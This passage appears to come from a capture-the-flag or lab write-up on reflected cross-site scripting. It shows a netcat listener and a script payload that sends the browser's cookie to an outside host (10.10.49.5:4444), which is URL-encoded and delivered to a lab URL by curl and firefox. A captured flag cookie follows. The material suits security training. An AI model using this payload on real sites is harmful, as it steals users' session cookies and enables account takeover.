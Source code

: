 `nc -lnvp 4444`:
```
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

`burpsuite` > `Decoder`

`Input`:
```
<script>new Image().src='http://10.10.49.5:4444/?cookie=' + encodeURI(document.cookie);</script>
```
`Encode as URL`:
```
%3c%73%63%72%69%70%74%3e%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%34%39%2e%35%3a%34%34%34%34%2f%3f%63%6f%6f%6b%69%65%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e
```

`curl 'https://7vabz65evl.execute-api.ap-southeast-1.amazonaws.com/default/value=%3c%73%63%72%69%70%74%3e%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%34%39%2e%35%3a%34%34%34%34%2f%3f%63%6f%6f%6b%69%65%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e'`:
```
{"message":"Missing Authentication Token"}
```
❌

`firefox 'https://7vabz65evl.execute-api.ap-southeast-1.amazonaws.com/default/value=%3c%73%63%72%69%70%74%3e%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%34%39%2e%35%3a%34%34%34%34%2f%3f%63%6f%6f%6b%69%65%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e' &`:
```
```

```
Ncat: Connection from 10.10.49.5.
Ncat: Connection from 10.10.49.5:39138.
GET /?cookie=FLAG=853676dd178993b390213bb70d68f08a;%20FLAG=853676dd178993b390213bb70d68f08a🚩 HTTP/1.1
Host: 10.10.49.5:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

---

## Stored XSS

### Introduction to Stored XSS

